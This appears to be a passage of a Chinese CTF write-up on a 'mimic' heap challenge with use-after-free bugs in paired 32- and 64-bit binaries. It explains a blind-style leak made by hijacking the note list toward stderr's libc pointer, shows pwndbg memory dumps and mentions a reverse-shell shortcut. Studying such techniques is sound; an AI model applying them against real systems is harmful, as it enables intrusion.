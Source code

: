 这是一道拟态的堆体，这泄露的方法真的是太精妙了，真的很有趣，两个可执行程序都是UAF的漏洞，按照传统的解法两边的后端都要getshell，但是没有泄露的话，这几率非常小。但是比赛的时候大佬们看到了32位程序ASLR的[弱点]( http://blog2.eonew.cn/archives/12 )，用反弹shell绕过裁决器的限制，太秀了。

不过正解的思路更是有趣

出题人给的思路是：

在输入和输出必须相同的情况下leak，在本题中是采用了一种类似时间盲注的方法，简单描述一下过程：

add一个新的note时，会malloc一个0x10大小的chunk，然后将note的size与地址ptr存入其中，并且bss上只存储了这个记录用chunk的地址数组list。 

edit时，将list指向的结构体中存放的size与ptr传参给read_n函数，在其中循环单字符读取直到读取数量等于size或者遇到换行符。 

 劫持list，将其错位指向一个libc地址 ：

**mimic64:**

```
pwndbg> telescope 0x602060 20
00:0000│   0x602060 (list) —▸ 0x1a73010 ◂— 0x1000
01:0008│   0x602068 (list+8) —▸ 0x1a73050 ◂— 0x1
02:0010│   0x602070 (list+16) —▸ 0x1a73090 ◂— 0x1
03:0018│   0x602078 (list+24) —▸ 0x1a73070 ◂— 0x10
04:0020│   0x602080 (list+32) ◂— 0x804b0900804b088
05:0028│   0x602088 (list+40) ◂— 0x804b1e000000001
06:0030│   0x602090 (list+48) ◂— 0x804b2e000000100
07:0038│   0x602098 (list+56) ◂— 0x0
08:0040│   0x6020a0 (list+64) —▸ 0x602045 (stderr@@GLIBC_2.2.5+5) ◂— 0x7f
09:0048│   0x6020a8 (list+72) —▸ 0x6020c0 (list+96) ◂— 0x100
0a:0050│   0x6020b0 (list+80) ◂— 0x0
... ↓
0c:0060│   0x6020c0 (list+96) ◂— 0x100
0d:0068│   0x6020c8 (list+104) —▸ 0x602046 (stderr@@GLIBC_2.2.5+6) ◂— 0x6000000000000000
0e:0070│   0x6020d0 (list+112) ◂— 0x0
... ↓
pwndbg> telescope 0x602045
00:0000│   0x602045 (stderr@@GLIBC_2.2.5+5) ◂— 0x7f
01:0008│   0x60204d —▸ 0x602360 ◂— 0x0
02:0010│   0x602055 ◂— 0x0
03:0018│   0x60205d ◂— 0x1a73010000000

```

**mimic32:**

```
pwndbg> telescope 0x804b060 20
00:0000│   0x804b060 (list) —▸ 0x996c008 ◂— 0x1000
01:0004│   0x804b064 (list+4) —▸ 0x996c028 ◂— 0x1
02:0008│   0x804b068 (list+8) —▸ 0x996c048 ◂— 0x1
03:000c│   0x804b06c (list+12) —▸ 0x996c038 ◂— 0x10
04:0010│   0x804b070 (list+16) —▸ 0x996c058 ◂— 0x0
05:0014│   0x804b074 (list+20) ◂— 0x0
... ↓
08:0020│   0x804b080 (list+32) —▸ 0x804b023 (stderr@@GLIBC_2.0+3) ◂— 0xf7
09:0024│   0x804b084 (list+36) —▸ 0x804b090 (list+48) ◂— 0x100
0a:0028│   0x804b088 (list+40) ◂— 0x0
... ↓
0c:0030│   0x804b090 (list+48) ◂— 0x100
0d:0034│   0x804b094 (list+52) —▸ 0x804b024 ◂— 0xe0000000
0e:0038│   0x804b098 (list+56) ◂— 0x0
... ↓
10:0040│   0x804b0a0 (list+64) ◂— 0x6020b0
11:0044│   0x804b0a4 (list+68) ◂— 0x0
12:0048│   0x804b0a8 (list+72) ◂— 0x6020c0
13:004c│   0x804b0ac (list+76) ◂— 0x0
pwndbg> telescope 0x804b023
00:0000│   0x804b023 (stderr@@GLIBC_2.0+3) ◂— 0xf7
01:0004│   0x804b027 —▸ 0x804b1e0 ◂— 0x0
```